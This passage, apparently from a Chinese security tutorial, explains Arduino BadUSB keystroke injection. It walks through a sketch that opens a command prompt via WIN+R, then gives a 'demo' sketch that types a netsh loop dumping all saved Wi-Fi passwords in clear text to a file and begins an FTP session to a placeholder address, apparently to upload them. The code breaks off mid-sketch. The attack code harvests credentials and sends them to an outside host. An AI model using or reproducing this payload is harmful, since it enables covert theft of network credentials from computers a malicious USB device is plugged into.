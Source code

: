解释下delay()，在执行Keyboard动作之后，应适当插入delay(),以防止因为主机问题出现的延迟导致程序无法执行。

再次览读第二部分代码，首先开启键盘通讯，按压KEY_LEFT_GUI键，KEY_LEFT_GUI该键位对应的键为键盘上的WIN键，再按压R键，释放全部按键，此时执行效果为WIN+R打开了运行框，随即输入了CMD，再次按压回车键，释放回车键，关闭键盘通讯。此时的执行效果为再运行框输入CMD后按回车，打开CMD命令框。

[![](https://p1.ssl.qhimg.com/t010a9238c4a701b906.png)](https://p1.ssl.qhimg.com/t010a9238c4a701b906.png)

看一下效果图：

[![](https://p1.ssl.qhimg.com/t019990a960ce1963ea.gif)](https://p1.ssl.qhimg.com/t019990a960ce1963ea.gif)

接下来再分享一个小demo，实现的功能主要是获取电脑保存的wifi密码信息

```
#include &lt;Keyboard.h&gt;

void setup() `{`

Keyboard.begin();

delay(500);

Keyboard.press(KEY_LEFT_GUI);

Keyboard.press('r');

delay(500);

Keyboard.release(KEY_LEFT_GUI);

Keyboard.release('r');

delay(500);

Keyboard.println("CMD");

Keyboard.press(KEY_RETURN);

Keyboard.release(KEY_RETURN);

delay(500);

Keyboard.print(F("for /f \"skip=9 tokens=1,2 delims=:\" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear &gt;&gt;d:/wifi.txt"));

Keyboard.press(KEY_RETURN);

Keyboard.release(KEY_RETURN);

delay(500);

Keyboard.print(F("ftp FTP地址"));

Keyboard.press(KEY_RETURN);

Keyboard.release(KEY_RETURN);

delay(500);

Keyboard.print(F("username"));

Keyboard.press(KEY_RETURN);

Keyboard.release(KEY_RETURN);
```